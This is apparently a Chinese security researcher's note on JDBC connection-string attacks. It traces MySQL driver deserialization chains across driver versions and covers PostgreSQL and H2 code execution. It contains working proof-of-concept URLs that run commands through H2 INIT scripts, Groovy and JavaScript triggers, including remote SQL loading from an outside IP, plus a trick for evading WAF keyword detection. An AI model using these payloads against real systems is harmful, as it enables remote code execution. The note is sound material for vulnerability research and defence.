










- [JDBC Attack](#jdbc-attack)
  - [Mysql JDBC Attack 反序列化](#mysql-jdbc-attack-反序列化)
    - [Mysql](#mysql)
      - [autoDeserialize](#autodeserialize)
      - [queryInterceptors](#queryinterceptors)
      - [ServerStatusDiffInterceptor](#serverstatusdiffinterceptor)
      - [ResultSetImpl#getObject](#resultsetimplgetobject)
    - [版本区别](#版本区别)
      - [8.x版本](#8x版本)
      - [6.x版本](#6x版本)
      - [5.x版本](#5x版本)
        - [detectCustomCollations](#detectcustomcollations)
    - [总结](#总结)
    - [复现](#复现)
  - [Mysql JDBC Attack 任意文件读取](#mysql-jdbc-attack-任意文件读取)
  - [PostgreSql JDBC Attack 任意构造函数实例化](#postgresql-jdbc-attack-任意构造函数实例化)
    - [影响版本](#影响版本)
    - [漏洞原理](#漏洞原理)
  - [PostgreSql JDBC Attack 任意文件写入](#postgresql-jdbc-attack-任意文件写入)
    - [影响版本](#影响版本-1)
  - [H2 JDBC Attack 代码执行](#h2-jdbc-attack-代码执行)
    - [漏洞原理](#漏洞原理-1)
      - [Execute SQL on Connection](#execute-sql-on-connection)
      - [UDF](#udf)
      - [远程加载SQL](#远程加载sql)
      - [本地执行SQL](#本地执行sql)
        - [Groovy](#groovy)
        - [ScriptEngineManager](#scriptenginemanager)
  - [Apache Derby JDBC Attack Slave Mode 反序列化](#apache-derby-jdbc-attack-slave-mode-反序列化)
- [参考](#参考)

# JDBC Attack
在jdbc connect string可控时针对不同数据库驱动的利用手法
## Mysql JDBC Attack 反序列化
主要是当JDBC Mysql连接的url可控时的攻击面  
条件: JDBC连接的url可控.  
JDBC基础语法:
```
jdbc:mysql://[host][,failoverhost...]
    [:port]/[database]
    [?propertyName1][=propertyValue1]
    [&propertyName2][=propertyValue2]...
```
### Mysql
通过在JDBC连接时指定autoDeserialize,queryInterceptors等参数让服务器自动进行反序列化恶意数据。
#### autoDeserialize
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-blob-clob-processing.html#cj-conn-prop_autoDeserialize)  
该属性用于指示处理BLOB类型时驱动是否自动识别并反序列化BLOB字段的数据,默认为false.
  
主要有两个地方可以触发反序列化,一个是通过queryInterceptors,另一个是detectCustomCollations.
#### queryInterceptors
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-statements.html#cj-conn-prop_queryInterceptors)  
语句拦截器,用于在两条语句执行中间对结果进行修改,接受以逗号分隔并实现了`com.mysql.cj.interceptors.QueryInterceptor`类的class列表,并且为链式结构,处理结果从左到右依次传递.


而在JDBC连接过程中会自动执行SET CHARSET,set autocommit=1等语句来初始化一些环境参数,就会触发`queryInterceptors`参数中指定的类执行。

不同版本的参数名有一些差异
1. 8.x版本: queryInterceptors
2. 6.x版本：queryInterceptors->statementInterceptors.
3. 5.1.11以上版本: queryInterceptors->statementInterceptors.
4. 5.1.10及以下的5.1.X版本,queryInterceptors->statementInterceptors,需要连接后执行查询语句后才会触发Interceptors.
#### ServerStatusDiffInterceptor
`ServerStatusDiffInterceptor`类就是实现了`com.mysql.cj.interceptors.QueryInterceptor`的子类，其中的`preProcess`表示在下一条语句执行前要执行的方法,代码如下

其中调用了`populateMapWithSessionStatusValues`,在其中最后调用了`ResultSetUtil.resultSetToMap(toPopulate, rs);`
而在`resultSetToMap`中则会触发`ResultSet.getObject`  
```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```
#### ResultSetImpl#getObject
在ResultSetImpl#getObject的实现中,会根据字段类型做不同处理,当处理到blob字段类型时则会对字段数据进行反序列化,造成反序列化攻击。


### 版本区别
然而在不同的小版本中,`ServerStatusDiffInterceptor`这个类经常被修改,
#### 8.x版本
* 8.0.9 <= version < 8.0.20   
在8.0.9版本及之前,该类的位置在,https://github.com/mysql/mysql-connector-j/blob/8.0.8/src/main/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java.    
从8.0.11之后的源码位置:  
https://github.com/mysql/mysql-connector-j/blob/8.0.11/src/main/user-impl/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java.

从源码可以看到在8.0.7到8.19之间是调用的`ResultSetUtil.resultSetToMap(toPopulate, rs);`可以触发反序列化.  

* 8.0.20 <= version <= 8.1.0
从8.0.20截止到 8.1.0为止该类不再调用`ResultSetUtil.resultSetToMap(toPopulate, rs);`而是调用`toPopulate.put(rs.getString(1), rs.getString(2));`      
  
#### 6.x版本
全版本6.0.0到6.0.6之间都可以触发    
https://github.com/mysql/mysql-connector-j/blob/6.0.6/src/main/java/com/mysql/cj/jdbc/interceptors/ServerStatusDiffInterceptor.java  
  
#### 5.x版本
而在5.x版本,除了5.1.49版本使用的是`toPopulate.put(rs.getString(1), rs.getString(2));`之外.  
https://github.com/mysql/mysql-connector-j/blob/5.1.49/src/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java  
从5.1.1到5.1.48都是调用的` Util.resultSetToMap(toPopulate, rs);`   
https://github.com/mysql/mysql-connector-j/blob/5.1.48/src/com/mysql/jdbc/interceptors/ServerStatusDiffInterceptor.java  
  
##### detectCustomCollations
在`ConnectionImpl`中,会对`SHOW COLLATION`返回结果调用`Util.resultSetToMap`进行处理，而`resultSetToMap`则和`ServerStatusDiffInterceptor`相同,最后走到`ResultSetImpl#getObject`触发反序列化。

前提是`this.getDetectCustomCollations()`要为true,且最小版本要大于5.0.0。  
而detectCustomCollations这个选项在5.1.29之前一直为true,但我们也可以在参数中直接指定该变量为true。  
  
而在5.1.18及以下版本并未使用getObject(),无法触发。 
  
根据[参考文章](https://www.anquanke.com/post/id/203086#h2-4)说是由于从5.1.41版本开始，不再使用getObject的方式获取SHOW COLLATION的结果，此方法失效,实测是5.1.39以后,不再直接调用`ResultSetImpl#getObject`,但是对`SHOW COLLATION`结果的第三列直接调用了results.getObject(),最后还是进入的ResultSetImpl#getObject中.

其中字段类型为-4,-3,-2(blob,bit,binary)时会进入`getObjectDeserializingIfNeeded`方法,直接用[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)的设置即可满足此条件.    

该方法和之前类似进行了反序列化操作,其中通过`this.connection.getAutoDeserialize()`来确定是否进行反序列化,在url中同之前一样设置`autoDeserialize=true`即可.

  

直到5.1.49才真正没有调用getObject().

但在6.0.2开始,版本中却又直接调用了`ResultSetUtil.resultSetToMap`，又回到了`ServerStatusDiffInterceptor`那条链中,同样可以触发反序列化,实测直到6.0.6版本都是这样。


而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。

### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)  
queryInterceptors触发版本: 5.1.1 < version <= 8.0.19(5.1.49除外)  
### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.


## Mysql JDBC Attack 任意文件读取
参考:  
https://paper.seebug.org/1112/  
https://xz.aliyun.com/t/12011  
## PostgreSql JDBC Attack 任意构造函数实例化
### 影响版本
>=9.4.1208&&<42.2.25||>=42.3.0&&<42.3.2
### 漏洞原理
参考 [CVE-2022-21724](https://github.com/nbxiglk0/Note/blob/master/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/Java/PostgreSQL/CVE-2022-21724/CVE-2022-21724.md)
## PostgreSql JDBC Attack 任意文件写入
### 影响版本
> < 42.3.3  
> 
https://github.com/pgjdbc/pgjdbc/security/advisories/GHSA-673j-qm5f-xpv8  
## H2 JDBC Attack 代码执行
### 漏洞原理
#### Execute SQL on Connection
h2支持在连接时指定初始化执行SQL语句.
http://www.h2database.com/html/features.html?highlight=init&search=init#execute_sql_on_connection    
   
比如`String url = "jdbc:h2:mem:test;INIT=runscript from '~/create.sql'\\;`
#### UDF
而在h2中也支持通过`CREATE ALIAS`和`CREATE TRIGGER`命令创建用户自定义函数(UDF).  
https://www.h2database.com/html/commands.html#create_alias  
  
https://www.h2database.com/html/commands.html#create_trigger  
    
所以便可以通过UDF来进行RCE.  
```sql
CREATE ALIAS EXEC AS 'void shellexec(String cmd) throws java.io.IOException {Runtime.getRuntime().exec(cmd);}';
select EXEC ('calc.exe');
```
结合两个特性,我们便可以在连接到h2数据库时进行RCE.
#### 远程加载SQL 
而从代码中可以看到对文件名是调用的`FileUtils.newInputStream(file);`进行处理.  
  
而最后如果不是从classPath开头地址的话就会使用URL连接打开.  
   
所以SQL语句是支持执行远程地址的sql文件.  
比如`jdbc:h2:mem:test;INIT=runscript from 'http://172.21.165.206:8080/init.sql'`  
  
#### 本地执行SQL
##### Groovy
而如果目标不能连接到外部地址,那么则不能通过远程SQL文件来RCE,而`CREATE ALIAS`还支持Groovy语言来创建UDF,而Groovy的元编程特性可以导致在Groovy编译时就执行代码,因为在h2 JDBC连接时从无法直接在JDBC连接字符串中连续执行多条语句.
需要依赖
```xml
        <dependency>
        <groupId>org.codehaus.groovy</groupId>
        <artifactId>groovy-sql</artifactId>
        <version>3.0.8</version>
    </dependency>
```
poc
```
        String url = "jdbc:h2:mem:test;init=CREATE ALIAS shell2 AS \n" +
                "$$@groovy.transform.ASTTest(value={\n" +
                " assert java.lang.Runtime.getRuntime().exec(\"cmd.exe /c calc.exe\")\n" +
                " })\n" +
                " def x$$";
```

##### ScriptEngineManager
而在`CREATE TRIGGER`中还支持执行javascript和ruby,当代码以`//javascript`和`#ruby`开头便会调用对应的引擎进行编译执行了,而javascript时JAVA自带的不需要其它依赖.
  
poc: 
```
String url = "jdbc:h2:mem:test;init=CREATE TRIGGER shell BEFORE SELECT ON \n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                " java.lang.Runtime.getRuntime().exec('cmd /c calc.exe')\n" +
                " $$";
```


* 在h2中$$之间的字符串不会被转义.
* `//javascript`后面需要换行,在浏览器中输入后,需要在Burp中手动换行.
* 有些程序或者waf会检测init关键字,但init前面可以加一个`\`来绕过,不影响语句执行.
## Apache Derby JDBC Attack Slave Mode 反序列化  
参考：https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf
  

# 参考
https://www.anquanke.com/post/id/203086#h2-4  
https://paper.seebug.org/1112/  
https://xz.aliyun.com/t/12011  
https://conference.hitb.org/hitbsecconf2021sin/materials/D1T2%20-%20Make%20JDBC%20Attacks%20Brilliant%20Again%20-%20Xu%20Yuanzhen%20&%20Chen%20Hongkun.pdf
